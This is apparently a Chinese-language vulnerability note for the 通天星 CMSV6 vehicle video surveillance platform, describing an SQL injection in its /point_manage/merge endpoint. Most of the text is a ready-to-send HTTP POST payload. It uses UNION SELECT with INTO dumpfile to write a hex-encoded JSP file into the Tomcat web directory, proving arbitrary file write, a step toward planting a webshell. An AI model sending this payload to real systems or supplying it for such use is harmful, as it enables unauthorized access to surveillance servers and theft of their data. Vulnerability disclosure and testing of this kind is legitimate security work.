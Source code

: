 **漏洞描述：**

通天星CMSV6车载视频监控平台/point_manage/merge接口存在SQL注入漏洞，攻击者可以向接口拼接恶意SQL语句获取服务器敏感信息，进一步获取权限。

**影响版本：**

通天星CMSV6车载视频监控平台

**Payload：**

```
POST /point_manage/merge HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2882.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Host: host

id=1&name=1' UNION SELECT%0aNULL, 0x3c25206f75742e7072696e7428227a7a3031306622293b206e6577206a6176612e696f2e46696c65286170706c69636174696f6e2e6765745265616c5061746828726571756573742e676574536572766c657450617468282929292e64656c65746528293b20253e,NULL,NULL,NULL,NULL,NULL,NULL INTO dumpfile '../../tomcat/webapps/gpsweb/allgods.jsp' FROM user_session a WHERE '1 '='1 &type=3&map_id=4&install_place=5&check_item=6&create_time=7&update_time=8
```

---
